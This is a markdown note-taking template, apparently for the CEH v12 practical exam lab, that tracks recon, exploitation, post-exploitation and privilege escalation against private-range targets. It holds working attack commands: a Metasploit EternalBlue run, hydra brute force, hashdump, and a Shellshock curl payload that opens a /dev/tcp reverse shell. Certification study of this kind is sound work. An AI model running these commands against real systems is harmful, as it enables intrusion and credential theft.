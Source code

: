 # CEH v12 Practical Exam - Live Findings Tracker

## 🎯 Quick Target Overview
| Target IP | OS | Status | Privilege | Notes |
|-----------|----|--------|-----------|-------|
| `192.168.1.10` | Windows 10 | ❌ Not Started | - | - |
| `192.168.1.20` | Linux | 🔄 Scanning | - | - |
| `192.168.1.30` | Windows Server | ✅ Compromised | Admin | - |

---

## 📝 Target: `[IP_ADDRESS]`

### 🔍 Reconnaissance
```bash
# Initial Scan
nmap -sS [IP] → Ports: [LIST]

# Service Scan  
nmap -sV -sC [IP] → 
- Port 80: Apache 2.4.38
- Port 445: SMB Windows 10
- Port 3389: RDP

# Vuln Scan
nmap --script vuln [IP] →
- [ ] ms17-010: VULNERABLE
- [ ] smb-vuln: Checked
```

### 🎯 Vulnerabilities Found
- [ ] **MS17-010** - Critical - SMB Service
- [ ] **Weak SSH Creds** - High - Port 22
- [ ] **Web Directory Traversal** - Medium - Port 80

### ⚔️ Exploitation Attempts
```bash
# Attempt 1: EternalBlue
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS [IP]
set LHOST [KALI_IP]
exploit → ❌ Failed - Patched?

# Attempt 2: SMB Login
hydra -L users.txt -P pass.txt smb://[IP] → 
- admin:admin123 ✅ WORKED
```

### 🏴‍☠️ Post-Exploitation
```bash
# Shell Access: ✅/❌
# User: administrator
# Privileges: Admin/User?

# Commands Run:
whoami /all → 
systeminfo → 
hashdump → 
```

### 🚀 Privilege Escalation
```bash
# Attempts:
- getsystem → ❌ Failed
- MS16-032 → ❌ Not applicable  
- Service misconfig → 🔄 Testing
```

### 📸 Evidence Captured
- [ ] Screenshot: Initial access
- [ ] Screenshot: Privilege escalation
- [ ] File: hashes.txt
- [ ] File: proof.txt

---

## 📝 Target: `[IP_ADDRESS]`

### 🔍 Reconnaissance
```bash
nmap -sS [IP] → Ports: 22,80,443

nmap -sV → 
- SSH: OpenSSH 7.4
- HTTP: Apache 2.4.6
```

### 🎯 Vulnerabilities Found
- [ ] **Shellshock** - Critical - CGI-BIN
- [ ] **SUID misconfig** - High - find command
- [ ] **Cron job** - Medium - writable

### ⚔️ Exploitation Attempts
```bash
# Attempt 1: Shellshock
curl -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/[IP]/4444 0>&1" http://[IP]/cgi-bin/test.cgi → ❌

# Attempt 2: SSH brute force
hydra -l root -P rockyou.txt ssh://[IP] → 🔄 Running
```

### 🏴‍☠️ Post-Exploitation
```bash
# Access: ✅/❌
# User: www-data
# PrivEsc vectors found:
- find / -perm -4000 2>/dev/null → /usr/bin/find
- sudo -l → (www-data) NOPASSWD: /usr/bin/vim
```

---

## ⏱️ Time Tracker
| Time | Activity | Target | Result |
|------|----------|---------|--------|
| 00:00 | Initial scans | All | Found 3 targets |
| 00:15 | SMB enum | 192.168.1.10 | Creds found |
| 00:30 | Exploit attempt | 192.168.1.10 | Failed |
| 00:45 | SSH brute | 192.168.1.20 | Running |

---

## 🛠️ Tools Used Log
| Tool | Purpose | Target | Result |
|------|---------|---------|--------|
| Nmap | Port scan | All | ✅ |
| Enum4linux | SMB enum | .10 | ✅ |
| Hydra | SSH brute | .20 | 🔄 |
| Metasploit | Exploit | .10 | ❌ |

---

## 💡 Quick Notes Section

### Issues Encountered
- [ ] Firewall blocking port 445
- [ ] Antivirus detected meterpreter
- [ ] Need alternative payload

### Next Steps
1. Try different SMB exploit
2. Check web app on port 80
3. Test FTP anonymous login

### Credentials Found
```
Target .10: admin/admin123
Target .20: root/Password1 (from hydra)
```

---

## ✅ Final Checklist Before Submission

### For Each Target:
- [ ] Initial scan completed
- [ ] At least one vulnerability identified
- [ ] Exploitation attempted
- [ ] Access obtained (if possible)
- [ ] Privilege escalation attempted
- [ ] Evidence captured
- [ ] Screenshots taken

### Overall:
- [ ] All targets attacked
- [ ] Time managed effectively
- [ ] Notes are organized
- [ ] Proof files saved
- [ ] Report structured

---

**Exam Time Remaining:** [ ] hours [ ] minutes
